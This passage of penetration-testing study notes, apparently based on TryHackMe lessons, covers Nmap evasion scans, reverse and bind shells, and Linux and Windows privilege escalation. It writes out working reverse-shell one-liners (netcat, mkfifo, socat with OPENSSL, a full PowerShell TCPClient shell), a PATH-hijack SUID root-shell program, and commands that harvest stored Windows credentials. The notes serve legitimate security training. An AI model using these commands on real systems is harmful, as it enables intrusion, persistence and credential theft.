However, as you would expect, if we repeat our TCP window scan against a server behind a firewall, we expect to get more satisfying results. In the console output shown below, the TCP window scan pointed that three ports are detected as closed. (This is in contrast with the ACK scan that labelled the same three ports as unfiltered.) Although we know that these three ports are not closed, we realize they responded differently, indicating that the firewall does not block them.

**Custom Scan**

You can do so using `--scanflags` . For instance, if you want to set SYN, RST, and FIN simultaneously, you can do so using `--scanflags RSTSYNFIN` 

# Spoofing and Decoys

### Spoofing

In some network setups, you will be able to scan a target system using a spoofed IP address and even a spoofed MAC address. Such a scan is only beneficial in a situation where you can guarantee to capture the response. If you try to scan a target from some random network using a spoofed IP address, chances are you won’t have any response routed to you, and the scan results could be unreliable.

In brief, scanning with a spoofed IP address is three steps:

1. Attacker sends a packet with a spoofed source IP address to the target machine.
2. Target machine replies to the spoofed IP address as the destination.
3. Attacker captures the replies to figure out open ports.

In general, you expect to specify the network interface using `-e` and to explicitly disable ping scan `-Pn`. Therefore, instead of `nmap -S SPOOFED_IP MACHINE_IP`, you will need to issue `nmap -e NET_INTERFACE -Pn -S SPOOFED_IP MACHINE_IP` to tell Nmap explicitly which network interface to use and not to expect to receive a ping reply. It is worth repeating that this scan will be useless if the attacker system cannot monitor the network for responses.

When you are on the same subnet as the target machine, you would be able to spoof your MAC address as well. You can specify the source MAC address using `--spoof-mac SPOOFED_MAC`. This address spoofing is only possible if the attacker and the target machine are on the same Ethernet (802.3) network or same WiFi (802.11).

### Decoys

Spoofing only works in a minimal number of cases where certain conditions are met. Therefore, the attacker might resort to using decoys to make it more challenging to be pinpointed. The concept is simple, make the scan appear to be coming from many IP addresses so that the attacker’s IP address would be lost among them. As we see in the figure below, the scan of the target machine will appear to be coming from 3 different sources, and consequently, the replies will go the decoys as well. `nmap -D Decoy1,Decoy2,ME,Decoy3 MACHINE_IP`

ex - `nmap -D 10.10.0.1,10.10.0.2,RND,RND,ME 10.10.24.56` Every excution will have 2 Random IP address as decoys.

### Fragmented Packets

Nmap provides the option `-f` to fragment packets. Once chosen, the IP data will be divided into 8 bytes or less. Adding another `-f` (`-f -f` or `-ff`) will split the data into 16 byte-fragments instead of 8. You can change the default value by using the `--mtu`; however, you should always choose a multiple of 8.

Let’s say we are doing a TCP Syn scan and the IP header is 20 bytes, and the TCP header is 24 bytes. With fragmentation requested via `-f`, the 24 bytes of the TCP header will be divided into multiples of 8 bytes, with the last fragment containing 8 bytes or less of the TCP header. Since 24 is divisible by 8, we get 3 IP fragments; each has 20 bytes of IP header and 8 bytes of TCP header.

Note that if you added `-ff` (or `-f -f`), the fragmentation of the data will be multiples of 16. In other words, the 24 bytes of the TCP header, in this case, would be divided over two IP fragments, the first containing 16 bytes and the second containing 8 bytes of the TCP header.

On the other hand, if you prefer to increase the size of your packets to make them look innocuous, you can use the option `--data-length NUM`, where num specifies the number of bytes you want to append to your packets.

### IDLE/ZOMBIE Scan

The idle scan, or zombie scan, requires an idle system connected to the network that you can communicate with. Practically, Nmap will make each probe appear as if coming from the idle (zombie) host, then it will check for indicators whether the idle (zombie) host received any response to the spoofed probe. This is accomplished by checking the IP identification (IP ID) value in the IP header. You can run an idle scan using `nmap -sI ZOMBIE_IP MACHINE_IP`, where `ZOMBIE_IP` is the IP address of the idle host (zombie).

The idle (zombie) scan requires the following three steps to discover whether a port is open:

1. Trigger the idle host to respond so that you can record the current IP ID on the idle host. (Record its current IP ID)
2. Send a SYN packet to a TCP port on the target. The packet should be spoofed to appear as if it was coming from the idle host (zombie) IP address.
    1. If that port is Closed: target machine responds with RST, and IP ID of zombie is not incremented.
    2. If the port is Open: target sends SYN/ACK, and IP ID of zombie increments.
    3. If the firewall blocks the packet: Same result as (a).
3. Trigger the idle machine again to respond so that you can compare the new IP ID with the one received earlier.

*The IP ID (Identification) is a field in the IP header that helps in identifying fragments of packets. When a packet is sent, the IP ID is incremented to differentiate between different packets. In the context of idle scans, monitoring the change in the IP ID of the idle host allows the attacker to infer whether a port on the target machine is open or closed based on the responses received. If the IP ID increments after probing the target, it indicates that the idle host received a response, which helps determine the port status.*

# Post Port Scans

| **Option** | **Meaning** |
| --- | --- |
| `-sV` | determine service/version info on open ports |
| `-sV --version-light` | try the most likely probes (2) |
| `-sV --version-all` | try all available probes (9) |
| `-O` | detect OS |
| `--traceroute` | run traceroute to target |
| `--script=SCRIPTS` | Nmap scripts to run |
| `-sC` or `--script=default` | run default scripts |
| `-A` | equivalent to `-sV -O -sC --traceroute` |
| `-oN` | save output in normal format |
| `-oG` | save output in grepable format |
| `-oX` | save output in XML format |
| `-oA` | save output in normal, XML and Grepable formats |

## Nmap Scripting Engine (NSE)

Nmap scripts are saved in `/usr/share/nmap/scripts`

You can choose to run the scripts in the default category using `--script=default` or simply adding `-sC`.

In addition to [default](https://nmap.org/nsedoc/categories/default.html), categories include auth, broadcast, brute, default, discovery, dos, exploit, external, fuzzer, intrusive, malware, safe, version, and vuln.
You can also specify the script by name using `--script "SCRIPT-NAME"` or a pattern such as `--script "ftp*"`, which would include `ftp-brute`. If you are unsure what a script does, you can open the script file with a text reader, such as `less`, or a text editor. In the case of `ftp-brute`, it states: “Performs brute force password auditing against FTP servers.” You have to be careful as some scripts are pretty intrusive. Moreover, some scripts might be for a specific server and, if chosen at random, will waste your time with no benefit. As usual, make sure that you are authorized to launch such tests on the target server.

`sudo nmap -sS -n --script "ssh2-enum-algos" 10.10.215.33`

# Reverse Shells/Bind Shells

# Tools

## Netcat

-easy

-very unstable

## Socat

Like netcat on steroids.

-harder syntax

-more stable

## Metasploit - - multi/handler

The `exploit/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Due to being part of the Metasploit framework, multi/handler provides a fully-fledged way to obtain stable shells, with a wide variety of further options to improve the caught shell. It's also the only way to interact with a *meterpreter* shell, and is the easiest way to handle *staged* payloads

## Msfvenom

Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool.

some repositories of shells in many different languages. One of the most prominent of these is [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). The PentestMonkey [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) is also commonly used. In addition to these online resources, Kali Linux also comes pre-installed with a variety of webshells located at `/usr/share/webshells`. The [SecLists repo](https://github.com/danielmiessler/SecLists), though primarily used for wordlists, also contains some very useful code for obtaining shells.

---

- **Reverse shells** are when the target is forced to execute code that connects *back* to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a *listener* which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.
    
    On the attacking machine:
    
    `sudo nc -lvnp <PORT>`
    
    On the target:
    
    `nc <LOCAL-IP> <PORT> -e /bin/bash`
    
- **Bind shells** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.
    
    On the target:
    
    `nc -lvnp <port> -e "cmd.exe"`
    
    On the attacking machine:
    
    `nc MACHINE_IP <port>`
    

---

# Stabilising Netcat Shells

*Technique 1: Python*

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

*Technique 2: rlwrap*

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell*;* however, s*ome* manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

*Technique 3: Socat*

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:


Next, in your reverse/bind shell, type in:

`stty rows <number>`

and

`stty cols <number>`

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

# Stabilising Socat Shells

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is *significantly* more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

`socat TCP-L:<port> FILE:`tty`,raw,echo=0`

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilises the terminal, attempting to "normalise" it.

# Encrypted Socat Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.

We then need to merge the two created files into a single `.pem` file:

`cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate *must* be used on whichever device is listening.

To connect back, we would use:

`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:

Target:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:

`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

# Other Shell Codes

The -e in the common netcat bind/reverse shell, which is used to execute commands, is not always available on some linux machines for being unsafe.

On Linux, however, we would instead use this code to create a listener for a bind shell:

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

A very similar command can be used to send a netcat reverse shell:

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

# Linux Privilege Escalation

# Enumeration

## Automated Enum Tools

Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.

LinPeas: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
LinEnum: [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
LES (Linux Exploit Suggester): [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
Linux Smart Enumeration: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
Linux Priv Checker: [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

## Manual Enum

## hostname

The hostname command will return the hostname of the target machine. Although this value can easily be changed or have a relatively meaningless string (e.g. Ubuntu-3487340239), in some cases, it can provide information about the target system’s role within the corporate network (e.g. SQL-PROD-01 for a production SQL server).

## uname -a

Will print system information giving us additional detail about the kernel used by the system. This will be useful when searching for any potential kernel vulnerabilities that could lead to privilege escalation.

## /proc/version

The proc filesystem (procfs) provides information about the target system processes. You will find proc on many different Linux flavours, making it an essential tool to have in your arsenal.

Looking at /proc/version may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

## /etc/issue

Systems can also be identified by looking at the /etc/issue file. This file usually contains some information about the operating system but can easily be customized or changed. While on the subject, any file containing system information can be customized or changed. For a clearer understanding of the system, it is always good to look at all of these.

## ps Command

The ps command is an effective way to see the running processes on a Linux system. Typing ps on your terminal will show processes for the current shell.

The output of the ps (Process Status) will show the following;

PID: The process ID (unique to the process)
TTY: Terminal type used by the user
Time: Amount of CPU time used by the process (this is NOT the time this process has been running for)
CMD: The command or executable running (will NOT display any command line parameter)
The “ps” command provides a few useful options.

`ps -A`: View all running processes
`ps axjf`: View process tree (see the tree formation until ps axjf is run below)

`ps aux`: The aux option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x). Looking at the ps aux command output, we can have a better understanding of the system and potential vulnerabilities.

## env

The env command will show environmental variables.

The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.

## sudo -l

The target system may be configured to allow users to run some (or all) commands with root privileges. The `sudo -l` command can be used to list all commands your user can run using sudo.

## ls

One of the common commands used in Linux is probably ls.

While looking for potential privilege escalation vectors, please remember to always use the ls command with the -la parameter. The example below shows how the “secret.txt” file can easily be missed using the ls or ls -l commands.

## Id

The id command will provide a general overview of the user’s privilege level and group memberships.

It is worth remembering that the id command can also be used to obtain the same information for another user as seen below.

## /etc/passwd

Reading the /etc/passwd file can be an easy way to discover users on the system.

While the output can be long and a bit intimidating, it can easily be cut and converted to a useful list for brute-force attacks.

Remember that this will return all users, some of which are system or service users that would not be very useful. Another approach could be to grep for “home” as real users will most likely have their folders under the “home” directory.

## history

Looking at earlier commands with the history command can give us some idea about the target system and, albeit rarely, have stored information such as passwords or usernames.

## ifconfig

The target system may be a pivoting point to another network. The ifconfig command will give us information about the network interfaces of the system. The example below shows the target system has three interfaces (eth0, tun0, and tun1). Our attacking machine can reach the eth0 interface but can not directly access the two other networks.

This can be confirmed using the ip route command to see which network routes exist.

## netstat

Following an initial check for existing interfaces and network routes, it is worth looking into existing communications. The netstat command can be used with several different options to gather information on existing connections.

`netstat -a`: shows all listening ports and established connections.
`netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
`netstat -l`: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol (below)

`netstat -s`: list network usage statistics by protocol (below) This can also be used with the -t or -u options to limit the output to a specific protocol.

`netstat -tp`: list connections with the service name and PID information.

This can also be used with the -l option to list listening ports (below)

We can see the “PID/Program name” column is empty as this process is owned by another user.

Below is the same command run with root privileges and reveals this information as 2641/nc (netcat)

`netstat -i`: Shows interface statistics. We see below that “eth0” and “tun0” are more active than “tun1”.

The netstat usage you will probably see most often in blog posts, write-ups, and courses is netstat -ano which could be broken down as follows;

-a: Display all sockets
-n: Do not resolve names
-o: Display timers

## find Command

Searching the target system for important information and potential privilege escalation vectors can be fruitful. The built-in “find” command is useful and worth keeping in your arsenal.

Below are some useful examples for the “find” command.

Find files:

`find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
`find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
`find / -type d -name config`: find the directory named config under “/”
`find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
`find / -perm a=x`: find executable files
`find /home -user frank`: find all files for user “frank” under “/home”
`find / -mtime 10`: find files that were modified in the last 10 days
`find / -atime 10`: find files that were accessed in the last 10 day
`find / -cmin -60`: find files changed within the last hour (60 minutes)
`find / -amin -60`: find files accesses within the last hour (60 minutes)
`find / -size 50M`: find files with a 50 MB size
This command can also be used with (+) and (-) signs to specify a file that is larger or smaller than the given size.

The example above returns files that are larger than 100 MB. It is important to note that the “find” command tends to generate errors which sometimes makes the output hard to read. This is why it would be wise to use the “find” command with “-type f 2>/dev/null” to redirect errors to “/dev/null” and have a cleaner output (below).

Folders and files that can be written to or executed from:

`find / -writable -type d 2>/dev/null : Find world-writeable folders
find / -perm -222 -type d 2>/dev/null: Find world-writeable folders
find / -perm -o w -type d 2>/dev/null: Find world-writeable folders`
The reason we see three different “find” commands that could potentially lead to the same result can be seen in the manual document. As you can see below, the perm parameter affects the way “find” works.

`find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
Find development tools and supported languages:

`find / -name perl*
find / -name python*
find / -name gcc*`
Find specific file permissions:

Below is a short example used to find files that have the SUID bit set. The SUID bit allows the file to run with the privilege level of the account that owns it, rather than the account which runs it. This allows for an interesting privilege escalation path,we will see in more details on task 6. The example below is given to complete the subject on the “find” command.

`find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

# Kernel Exploits

The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges.

The Kernel exploit methodology is simple;

Identify the kernel version
Search and find an exploit code for the kernel version of the target system
Run the exploit
Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit.

# SUDO Exploits

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the `sudo -l` command.

[https://gtfobins.github.io/](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

# SUID Exploits

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.

You will notice these files have an “s” bit set showing their special permission level.

```
find / -type f -perm -04000 -ls 2>/dev/null
```

will list files that have SUID or SGID bits set.

A good practice would be to compare executables on this list with GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set

eg.

We see that the nano text editor has the SUID bit set by running the command.

```
find / -type f -perm -04000 -ls 2>/dev/null
```

We can now use the unshadow tool to create a file crackable by John the Ripper. To achieve this, unshadow needs both the /etc/shadow and /etc/passwd files.

The unshadow tool’s usage can be seen below;

```
unshadow passwd.txt shadow.txt > passwords.txt
```

With the correct wordlist and a little luck, John the Ripper can return one or several passwords in cleartext.

eg. 2

The other option 

would be to add a new user that has root privileges. This would help us circumvent the tedious process of password cracking. Below is an easy way to do it:

We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.


We will then add this password with a username to the `/etc/passwd` file.


Once our user is added (please note how `root:/bin/bash` was used to provide a root shell) we will need to switch to this user and hopefully should have root privileges.


# Capabilities Exploit

Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.
The capabilities man page provides detailed information on its usage and options.

We can use the getcap tool to list enabled capabilities.

When run as an unprivileged user, `getcap -r /` will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.

```objectivec
getcap -r / 2>/dev/null
```

# Cron Jobs Exploit

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.

The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under

```
/etc/crontab
```

While CTF machines can have cron jobs running every minute or every 5 minutes, you will more often see tasks that run daily, weekly or monthly in penetration test engagements.

# PATH

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file).

Typically the PATH will look like this:



As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?

Keep the binary in a folder which is listed in the $PATH, or just add it to $PATH.

```objectivec
export PATH=/tmp$PATH
```

now lets create a `exploit` binary in /tmp

```objectivec
echo “/bin/bash” > exploit
chmod +x exploit
```

Now lets create a script and name it `script.c`:

```objectivec
#include<unistd.h>
#include<stdlib.h>
void main()
{
	setuid(0);
	setgid(0);
	system("exploit");
}
```

Now compile it and run it:

```objectivec
gcc script.c -o script -w
chmod u+s script
./script
```

This should give a root shell.

NOTE: The `exploit` binary should be in the folder that is listed in the $PATH variable

# NFS Exploit

Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.

Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.


The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

We will start by enumerating mountable shares from our attacking machine.


We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable.


As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job.


Once we compile the code we will set the SUID bit.


You will see below that both files (nfs.c and nfs are present on the target system. We have worked on the mounted share so there was no need to transfer them).


Notice the nfs executable has the SUID bit set on the target system and runs with root privileges.

# Windows Privilege Escalation

Depending on the situation, we might need to abuse some of the following weaknesses:

- Misconfigurations on Windows services or scheduled tasks
- Excessive privileges assigned to our account
- Vulnerable software
- Missing Windows security patches

Before jumping into the actual techniques, let's look at the different account types on a Windows system.

## **Windows Users**

Windows systems mainly have two kinds of users. Depending on their access levels, we can categorise a user in one of the following groups:

| **Administrators** | These users have the most privileges. They can change any system configuration parameter and access any file in the system. |
| --- | --- |
| **Standard Users** | These users can access the computer but only perform limited tasks. Typically these users can not make permanent or essential changes to the system and are limited to their files. |

Any user with administrative privileges will be part of the **Administrators** group. On the other hand, standard users are part of the **Users** group.

In addition to that, you will usually hear about some special built-in accounts used by the operating system in the context of privilege escalation:

| **SYSTEM / LocalSystem** | An account used by the operating system to perform internal tasks. It has full access to all files and resources available on the host with even higher privileges than administrators. |
| --- | --- |
| **Local Service** | Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network. |
| **Network Service** | Default account used to run Windows services with "minimum" privileges. It will use the computer credentials to authenticate through the network. |

These accounts are created and managed by Windows, and you won't be able to use them as other regular accounts. Still, in some situations, you may gain their privileges due to exploiting specific services.

# Harvesting Passwords from Usual Spots

## Unattended Windows Installations

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
As part of these files, you might encounter credentials:

```objectivec
<Credentials>
<Username>Administrator</Username>
<Domain>thm.local</Domain>
<Password>MyPassword123</Password>
</Credentials>
```

## Powershell History

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a cmd.exe prompt:

```objectivec
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Note: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile.

## Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

```objectivec
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.

```objectivec
runas /savecred /user:admin cmd.exe
```

## IIS Configuration

Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:

C:\inetpub\wwwroot\web.config
C:\Windows\[Microsoft.NET](http://microsoft.net/)\Framework64\v4.0.30319\Config\web.config
Here is a quick way to find database connection strings on the file:

```objectivec
type C:\Windows\[Microsoft.NET](http://microsoft.net/)\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:

```objectivec
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

Note: Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

